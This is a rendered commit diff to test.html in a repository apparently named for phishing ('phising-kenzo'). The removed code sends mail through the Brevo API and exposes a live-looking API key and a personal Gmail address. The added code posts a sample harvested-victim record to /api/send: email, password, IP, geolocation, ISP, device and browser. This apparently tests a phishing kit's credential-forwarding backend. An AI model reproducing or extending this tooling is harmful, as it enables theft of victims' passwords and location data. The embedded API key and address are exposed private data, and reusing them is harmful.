

Before and after one commit to Doken123/phising-kenzo, a plain HTML site: page test.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update test.html

```diff
--- a/test.html
+++ b/test.html
@@ -2,38 +2,42 @@
 <html>
 <head>
 <meta charset="UTF-8">
-<title>Test Brevo</title>
+<title>Test API</title>
 <style>
-body{font-family:Arial;padding:20px;background:#f0f0f0}
-.box{background:#fff;padding:20px;border-radius:10px;max-width:600px;margin:auto}
-button{background:#1a73e8;color:#fff;border:0;padding:12px 24px;border-radius:6px;font-size:16px;cursor:pointer;width:100%}
-pre{background:#111;color:#0f0;padding:15px;border-radius:6px;overflow-x:auto;white-space:pre-wrap;word-break:break-all;font-size:12px;margin-top:20px}
+body{font-family:Arial;padding:20px;background:#111;color:#fff}
+button{background:#238636;color:#fff;border:0;padding:15px 25px;font-size:16px;border-radius:8px;cursor:pointer;width:100%}
+pre{background:#000;color:#0f0;padding:15px;border-radius:8px;margin-top:20px;white-space:pre-wrap;word-break:break-all;font-size:12px;min-height:200px}
 </style>
 </head>
 <body>
-<div class="box">
-<h2>Test Brevo API</h2>
-<p>Klik tombol di bawah untuk test kirim email:</p>
-<button onclick="testBrevo()">🚀 KIRIM TEST</button>
-<pre id="hasil">Belum ada hasil... klik tombol di atas</pre>
-</div>
+<h2>Test Kirim ke API</h2>
+<button onclick="test()">🚀 TEST KIRIM EMAIL</button>
+<pre id="hasil">Klik tombol di atas...</pre>
 
 <script>
-function testBrevo(){
-    document.getElementById("hasil").textContent = "Loading...";
+function test(){
+    document.getElementById("hasil").textContent = "Mengirim...";
 
-    fetch("https://api.brevo.com/v3/smtp/email", {
+    fetch("/api/send", {
         method: "POST",
-        headers: {
-            "accept": "application/json",
-            "api-key": "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",
-            "content-type": "application/json"
-        },
+        headers: { "Content-Type": "application/json" },
         body: JSON.stringify({
-            sender: { name: "Test", email: "medikaputra5@gmail.com" },
-            to: [{ email: "medikaputra5@gmail.com" }],
-            subject: "Test Brevo",
-            htmlContent: "<h1>Halo dari Brevo</h1>"
+            email: "test@test.com",
+            password: "test123",
+            ip: "1.2.3.4",
+            ipv6: "-",
+            negara: "ID Indonesia",
+            prov: "Jakarta",
+            kota: "Jakarta",
+            zona: "Asia/Jakarta",
+            isp: "Test ISP",
+            asn: "AS12345",
+            zip: "12345",
+            koord: "-6.2 , 106.8",
+            waktu: "20-09-2026 00:16:00 WIB",
+            device: "Android",
+            os: "Android 11",
+            browser: "Chrome 120"
         })
     })
     .then(r => r.text())
```
